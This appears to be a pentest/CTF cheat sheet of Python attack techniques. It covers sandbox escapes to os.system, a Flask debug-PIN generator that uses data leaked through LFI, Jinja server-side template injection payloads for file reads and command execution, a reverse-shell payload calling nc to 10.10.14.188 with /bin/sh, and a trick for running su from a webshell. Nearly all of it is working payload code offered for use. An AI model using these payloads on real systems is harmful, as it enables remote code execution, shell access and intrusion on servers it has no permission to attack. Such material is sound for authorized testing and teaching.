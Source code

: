 # Python

### Bypass python builtins none

#### Python2

```python
().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']('os').system('whoami')
```

#### Python3

```python
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('os').system('whoami')
```

### QRCode from Terminal Output

```python
#!/usr/bin/env python2
from pwn import *
from subprocess import check_output
import subprocess

p = remote('host',1234)
img = p.recvuntil("[+]")
print(img)
subprocess.call("gnome-screenshot -f x.png", shell=True)
output = subprocess.check_output("zbarimg x.png ", shell=True)
print(output)
p.interactive()
```

### Flask Debug Pin from LFI

Get the values for "probably\_public\_bits" from a Stacktrace, then run the script to get the PIN.

```python
import hashlib
from itertools import chain
probably_public_bits = [
    '',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]

private_bits = [
    '345052358410',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '258f132cd7e647caaf5510e3aca997c1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

### SSTI Jinja

#### Read File

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(<file>).read()}}
{% raw %}
{%include+request.application.__globals__.__builtins__[request.args.import](request.args.os).popen(request.args.cmd).read().__str__()%}
{% endraw %}&import=__import__&os=os&cmd=ls
```

#### Read Command Output into Cookie

```
?a=somevalue&name={% raw %}
{%%20if%20session.update({request.args.a:%20True})%20%}{%endif%}
?a=os&b=ls&name={% if session.update({request.application.__globals__.__builtins__.__import__(request.args.a).popen(request.args.b).read(): True}) %}{%endif%}
{% endraw %}
```

#### RCE

```
{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}
```

Alternative:

```
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("nc.traditional 10.10.14.188 2000 -e /bin/sh").read()}}{%endif%}{% endfor %}
{% endraw %}
```

#### [Sneaky ](https://www.sans.org/blog/sneaky-stealthy-su-in-web-shells/)SU from Webshell

```
cmd=(sleep 1; echo password) | python3 -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"
```



#### Resources

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection)
